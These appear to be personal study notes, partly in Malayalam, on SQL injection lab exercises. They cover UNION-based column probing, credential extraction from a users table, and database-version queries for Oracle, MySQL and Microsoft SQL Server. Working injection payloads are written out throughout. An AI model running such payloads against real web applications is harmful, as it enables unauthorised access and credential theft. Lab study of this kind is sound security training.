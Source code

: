            Lab-3.d(practical-retrievng multiple value in a single column)
		                   ===============================
 first we need to find how many columns are there
          -->'+UNION+SELECT+NULL,NULL--                     (2 column
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+NULL,'abcor123'--     (2 column only contain num/text)
third we need to retrive username and password from users table:
           -->'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
     ivide aadyathe column il alla marich randamathe column il ninum aan namuk username,password kitunath.ath verthirkan aan namma aa symbol use chythath
-->Note that different databases use different syntax to perform string concatenation
	 
--------------------------------------------------------------------

          Lab-4 (## Examining the database):
	           ======================
     Lab-4.a(theory):
-->When exploiting SQL injectionvulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.
#### Querying the database type and version:
-->Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.
                 
				 --Microsoft, MySQL = @@version
			     --Oracle=SELECT banner FROM v$version   SELECT version FROM v$instance
				 --PostgreSQL= version()
-->For example, you could use a `UNION` attack with the following input:
        -->' UNION SELECT @@version--
		
        Lab-4.a(practical-querying-database-version-oracle):
-->On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
-->There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual.ivide dual maati v$version,v$instance idanam(ee tables in ninuman version kandupidikunath)
--> first we need to find how many columns are there
          -->'+UNION+SELECT+NULL,NULL+FROM+dual--     (2 column
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+'josu','josu'+FROM+dual--
third we need to know the version of Database:
           -->'+UNION+SELECT+NULL,BANNER+FROM+v$version--                 OR
		   -->'+UNION+SELECT+BANNER,NULL+FROM+v$version--

       Lab-4.a(practical-querying-database-version-MySql,microsoft):
-->namuk ariyam microsoft,mysql inte verision nokunath -- @@verion
-->comment -     # or --
-->--> first we need to find how many columns are there
          -->'+ORDER+BY+2# HTTP/1.1a       
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+'josu','josu'# HTTP/1.1
third we need to know the version of the database:
           -->'+UNION+SELECT+'josu',@@version# HTTP/1.1
		   